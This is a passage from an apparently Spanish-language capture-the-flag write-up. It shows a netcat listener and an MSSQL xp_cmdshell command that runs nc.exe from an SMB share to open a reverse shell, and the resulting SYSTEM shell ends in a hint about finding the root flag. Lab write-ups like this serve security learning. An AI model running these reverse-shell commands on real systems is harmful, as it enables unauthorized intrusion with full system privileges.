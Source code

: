 Nos ponemos a la escucha en nuestra máquina:

```bash
$ nc -nlvp 8888
listening on [any] 8888 ...
```

Y ejecutamos el comando para obtener la shell reversa:

```bash
SQL (sa  dbo@master)> xp_cmdshell \\10.0.2.5\murrusko\nc.exe 10.0.2.5 8888 -e cmd
```

Conseguimos la shell y vemos que realmente estamos con **nt authority\system**:

```bash
$ nc -nlvp 8888
listening on [any] 8888 ...
connect to [10.0.2.5] from (UNKNOWN) [10.0.2.145] 49246
Microsoft Windows [Versi?n 10.0.19045.2965]
(c) Microsoft Corporation. Todos los derechos reservados.

C:\Windows\system32>whoami  
whoami
nt authority\system

C:\Windows\system32>
```

Ahora solo queda obtener las flags, pero antes solo queda un reto, obtener la flag de root… Os lo dejo a vosotros, como pista buscar **ADS data streams**
